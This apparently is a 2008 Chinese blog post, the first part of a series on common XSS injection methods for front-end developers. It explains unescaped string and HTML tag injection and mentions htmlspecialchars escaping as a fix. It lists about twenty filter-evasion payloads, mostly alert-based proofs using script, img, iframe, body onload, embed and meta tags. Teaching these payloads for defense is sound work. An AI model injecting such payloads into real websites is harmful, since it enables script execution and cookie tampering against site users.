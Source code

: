 ```yaml
---
title: 常见的 XSS 注入攻击方式 Part.1
date: 2008-10-30
layout: post
categories:
    - 奇技淫巧

#type: draft
---
```


前端开发常见的安全问题就是会遭受  [XSS 注入攻击](http://en.wikipedia.org/wiki/Cross-site_scripting) ，这里列举常见的代码注入方式。


### Javascript 代码注入

Javascript 代码注入主要表现为直接引用未经校验的字符串、解析不安全的 JSON 数据（ [包括 JSONP](http://bob.pythonmac.org/archives/2005/12/05/remote-json-jsonp/) ）等。

很多时候会写这样的代码

    document.write('u name is' + name);

这就会形成一定的安全性问题（如果服务器端没有过滤的话），比如 name 为下面的数据，在没有经过过滤时

    ';alert('xss');//

    ";alert('xss');//

    '';!--"<xss>=&{()}

就会破坏原有代码结构，插入不期望的代码。


### HTML 标签注入

HTML 注入是较为常见的一种方式，主要的注入入口为不周全的正则过滤、内联样式（针对 Exploer），下面是常见的注入代码

逃过不周全的正则过滤，解决方案为使用 PHP 的 htmlspecialchars 以及 htmlentities 等类似函数转义。

    <sCrIpT src=xss.js></sCrIpT>

```
<script src=xss.js>
</script>
```

    <script/xss src="xss.js"></script>

    <script/SRC="xss.js"></script>

    <<script>alert("xss");//<</script>

```
<script>a=/xss/
alert(a.source)</script>
```

从图片标签中注入，在些论坛上比较常见

    <img src="javascript:alert('xss');">

    <img """><script>alert("xss")</script>">

    <img src="xss.php?param">

从连接标签上注入（虽然本人没有发现过案例，不过也不能轻视）

    <script a=">" SRC="xss.js"></script>

    <script =">" SRC="xss.js"></script>

    <script a=">" '' SRC="xss.js"></script>

其他容易注入的地方

    <body onload=alert('xss')>

    <iframe src="javascript:alert('xss');"></iframe>

    <embed src="xss.swf" AllowScriptAccess="always"></embed>

    <meta http-equiv="Set-Cookie" content="USERID=<script>alert('xss')</script>">

先摘记举例那么多，下期的内容包括「CSS 注入」、「其他注入方法」以及一般性解决方案，欢迎探讨和纠正。
